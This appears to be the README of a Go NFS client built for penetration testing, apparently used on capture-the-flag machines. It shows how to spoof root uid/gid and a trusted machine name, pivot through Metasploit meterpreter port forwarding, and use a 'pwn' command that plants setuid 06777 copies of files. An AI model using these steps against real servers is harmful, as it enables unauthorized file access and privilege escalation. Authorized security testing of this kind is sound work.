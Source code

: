 # nfs-cli

Simple cli for nfs. No NFS acls are bypassed or anything. This is not an exploit. You can set machine identifier, uid and gid though.

(And no, this doesn't work through a metasploit socks proxy, as go doesn't do obey proxychains.)

## Usage
```sh
nfs-cli -machine iamallowed -uid 0 -gid 0 -target /path/to/exported/path -rhost remoteserver
```

Build static (for infil):
```sh
CGO_ENABLED=0 go build -a -ldflags '-extldflags "-static"' .
```

### Commands
Note: Don't include slashes in paths, this tool is pretty dumb.

- `ls` - list files i cwd
- `cd newdir` - change cwd
- `mkdir newdir` - create a directory (mode `06777`)
- `cat file` - view file
- `get file` - download file
- `put file` - upload file (mode `06777`)
- `rm file` - delete file
- `rmdir dir` - delete directory (and recursive)
- `pwn file` - copies `file` to `file.pwn` and sets mode `06777`

The suid-bit doesn't work unless you are root, not sure if this is nfs or the library.

## Example
Metasploit:
```
# we can't forward listening sockets
sudo systemctl stop portmap
sudo systemctl stop rpcbind.socket

sudo msfconsole -q   # 111 is privileged, see below for workaround
...
meterpreter > shell
Process XYZ created.
Channel ZYX created.
$ rpcinfo -a
   program vers proto   port  service
   ...
    100005    2   tcp  20048  mountd      <--this is the portnumber you want
   ...
$ exit
meterpreter > portfwd add -l 111 -L 0.0.0.0 -p 111 -r 127.0.0.1
meterpreter > portfwd add -l 2049 -L 0.0.0.0 -p 2049 -r 127.0.0.1
meterpreter > portfwd add -l 20048 -L 0.0.0.0 -p 20048 -r 127.0.0.1
```

Client:
```
./nfs-cli -uid 0 -gid 0 -machine iamtrusted -rhost localhost -target /home/james
[/home/james] .> ls
  [.                                       ]  1000: 1000 (00700) 129
  [..                                      ]     0:    0 (00000) 0
  [.bash_logout                            ]  1000: 1000 (00644) 18
  [.bash_profile                           ]  1000: 1000 (00644) 141
  [.bashrc                                 ]  1000: 1000 (00644) 312
  [.ssh                                    ]  1000: 1000 (00700) 61
  [.bash_history                           ]     0:    0 (00777) 9
  [user.flag                               ]  1000: 1000 (00644) 38
  [README.md                               ]  1000: 1000 (00777) 2785
[/home/james] .> pwn README.md
[/home/james] .> ls
  [.                                       ]  1000: 1000 (00700) 150
  [..                                      ]     0:    0 (00000) 0
  [.bash_logout                            ]  1000: 1000 (00644) 18
  [.bash_profile                           ]  1000: 1000 (00644) 141
  [.bashrc                                 ]  1000: 1000 (00644) 312
  [.ssh                                    ]  1000: 1000 (00700) 61
  [.bash_history                           ]     0:    0 (00777) 9
  [user.flag                               ]  1000: 1000 (00644) 38
  [README.md                               ]  1000: 1000 (00777) 2785
  [README.md.pwn                           ]     0:    0 (06777) 2785
[/home/james] .> 
```

## Alternative usage (non-priv)
```
git clone https://github.com/go-nfs/nfsv3.git
cd nfsv3
# copy main.go here
# edit nfs/rpc/portmap.go and change PmapPort to 9111
go run . -h
```

Now it's possible to `portfwd add -l 9111 -L 0.0.0.0 -p 111 -r 127.0.0.1` instead. No need to run `msfconsole` as root.
